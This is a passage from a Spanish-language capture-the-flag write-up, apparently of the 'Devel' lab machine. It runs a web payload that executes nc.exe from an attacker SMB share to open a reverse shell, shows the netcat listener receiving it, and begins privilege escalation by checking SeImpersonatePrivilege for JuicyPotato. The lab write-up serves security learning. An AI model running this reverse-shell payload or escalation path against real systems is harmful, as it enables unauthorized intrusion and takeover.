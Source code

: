 Desde la web `ejecutamos` este `payload`

```
\\10.10.16.16\\smbFolder\nc.exe -e cmd 10.10.16.16 9993
```

![](/assets/img/Devel/image_2.png)

Ganamos acceso a la máquina víctima 

```
# nc -nlvp 9993
listening on [any] 9993 ...
connect to [10.10.16.16] from (UNKNOWN) [10.129.155.162] 49202
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
iis apppool\web
```
## Privilege Escalation (First Method)

`Listamos` nuestros `privilegios` actuales y vemos que `SeImpersonatePrivilege` está activado por lo tanto podemos `convertirnos` en el usuario `Administrator`

```
c:\windows\system32\inetsrv>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeShutdownPrivilege           Shut down the system                      Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
```

`Listamos` la `información` del sistema, para verificar si podemos utilizar `JuicyPotato` para convertirnos en `Administrator` o debemos usar una herramienta alternativas

```
c:\windows\system32\inetsrv>systeminfo
systeminfo

Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          babis
Registered Organization:   
Product ID:                55041-051-0948536-86302
```